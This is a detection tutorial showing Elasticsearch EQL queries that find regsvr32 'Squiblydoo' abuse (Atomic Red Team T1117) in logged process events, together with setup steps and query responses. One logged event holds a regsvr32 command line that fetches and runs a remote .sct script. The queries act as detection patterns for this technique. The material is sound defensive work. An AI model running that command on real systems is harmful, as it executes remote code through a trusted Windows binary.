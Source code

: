 ### Example: Detect threats with EQL

See [Example: Detect threats with EQL](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/eql-ex-threat-detection.html)
See [EQL syntax reference](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/eql-syntax.html)

#### Setup

To get started:

1. Create an [index template](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/index-templates.html) with [data stream enabled](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/set-up-a-data-stream.html#create-index-template)

```json

PUT /_index_template/my-data-stream-template
{
  "index_patterns": [ "my-data-stream*" ],
  "data_stream": { },
  "priority": 500
}

```

2. Use the [bulk API](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/docs-bulk.html) to index the data to a matching stream:

```json

curl -XPOST "localhost:9200/my-data-stream/_bulk?pretty&refresh" -s -u elastic:changeme -H 'Content-Type: application/x-ndjson' --data-binary "@dataset/normalized-T1117-AtomicRed-regsvr32.json"

```

3. Use the [cat indices API](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/cat-indices.html) to verify the data was indexed:

```json

GET /_cat/indices/my-data-stream?v=true&h=health,status,index,docs.count

```

#### Get a count of regsvr32 events

```json

GET /my-data-stream/_eql/search?filter_path=-hits.events    
{
  "query": """
    any where process.name == "regsvr32.exe"                
  """,
  "size": 200                                               
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 1,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 143,
      "relation" : "eq"
    }
  }
}

```

</details>


#### Check for command line artifacts

```json

GET my-data-stream/_eql/search?filter_path=hits.events
{
  "query": """
    any where process.name == "regsvr32.exe" and  process.command_line.keyword !=null
  """,
  "size": 200
}

```

<details>
  <summary>Response:</summary>

```json

{
  "hits" : {
    "events" : [
      {
        "_index" : ".ds-my-data-stream-2023.04.28-000001",
        "_id" : "9v9YxocBJz9yVPk--OPB",
        "_source" : {
          "process" : {
            "parent" : {
              "name" : "cmd.exe",
              "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable" : """C:\Windows\System32\cmd.exe"""
            },
            "name" : "regsvr32.exe",
            "pid" : 2012,
            "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line" : "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable" : """C:\Windows\System32\regsvr32.exe""",
            "ppid" : 2652
          },
          "logon_id" : 217055,
          "@timestamp" : 131883573237130000,
          "event" : {
            "category" : "process",
            "type" : "creation"
          },
          "user" : {
            "full_name" : "bob",
            "domain" : "ART-DESKTOP",
            "id" : """ART-DESKTOP\bob"""
          }
        }
      }
    ]
  }
}

```

</details>

#### Check for malicious script loads

Check if regsvr32.exe later loads the scrobj.dll library:

```json

GET /my-data-stream/_eql/search
{
  "query": """
    any where process.name == "regsvr32.exe"  and dll.name == "scrobj.dll"              
  """
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 1,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "events" : [
      {
        "_index" : ".ds-my-data-stream-2023.04.28-000001",
        "_id" : "Fv9YxocBJz9yVPk--OTC",
        "_source" : {
          "process" : {
            "name" : "regsvr32.exe",
            "pid" : 2012,
            "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable" : """C:\Windows\System32\regsvr32.exe"""
          },
          "dll" : {
            "path" : """C:\Windows\System32\scrobj.dll""",
            "name" : "scrobj.dll"
          },
          "@timestamp" : 131883573237450016,
          "event" : {
            "category" : "library"
          }
        }
      }
    ]
  }
}

```

</details>


